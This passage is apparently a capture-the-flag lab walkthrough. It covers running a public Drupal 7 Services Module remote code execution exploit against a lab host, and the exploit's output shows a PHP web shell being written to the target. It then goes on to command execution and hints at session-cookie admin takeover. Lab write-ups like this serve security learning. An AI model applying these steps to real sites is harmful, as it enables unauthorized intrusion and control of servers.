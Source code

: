 You have to edit the vulnerability as per our the target. Previously we discovered that the end_point in this case is rest. According here is the edit in the exploit.

![Editing the exploit](./images/edit_exploit.png)

Now we added a line so as to send commands and recieve their output. 

*Note: There are 2 places where the comments have been wrapped into the next line, edit it 2 and then it will run. Also remember to install php-curl ``` apt-get install php curl``` if it is missing*

## Exploitation

Run the exploit. You will see the following.

```zsh
php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9//darkt3rr0r.php
```
**By using the session.json data we can use cookie manipulation to login as admin, will discuss that at the end of the document.**

### Command Execution

I tried to access my file which has now been added and accessible. I try to see, if I have command execution so as to get out session back.

![Command execution](./images/code_exec.png)
